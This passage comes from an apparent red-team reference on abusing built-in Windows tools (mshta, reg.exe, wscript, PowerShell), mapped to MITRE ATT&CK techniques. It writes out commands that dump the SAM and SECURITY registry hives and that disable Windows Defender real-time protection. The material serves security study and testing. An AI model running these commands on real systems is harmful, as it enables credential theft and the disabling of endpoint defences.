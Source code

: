 ### Examples

    mshta.exe myapp.hta

## Abusing reg.exe
### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Persistence, Privilege Escalation|T1547.001|Boot or Logon Autostart Execution:|Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder|N/A

### Examples

    Export SAM and SECURITY
    	reg save HKLM\SAM "D:\Penetration Tests\Tests\b_scratchpad\01_script_dev\SAM"
    	reg save HKLM\SECURITY "D:\Penetration Tests\Tests\b_scratchpad\01_script_dev\SECURITY"
    
    Disable defender real time protection
    	reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1 /f
    
    Query current setting
    	reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\real-Time Protection" /v DisableRealtimeMonitoring

## Abusing wscript.exe
### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Execution|T1059.005|Command and Scripting Interpreter|Command and Scripting Interpreter: Visual Basic|N/A

### Examples

In open_calc.vbs:

    'msgbox "Click OK to run calculator"
    Set shell=CreateObject("wscript.shell")
    Shell.Run("calc.exe")

From console/powershell:

    wscript open_calc.vbs

## Abusing powershell.exe
### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Execution|T1059.001|Command and Scripting Interpreter|Command and Scripting Interpreter: PowerShell|N/A
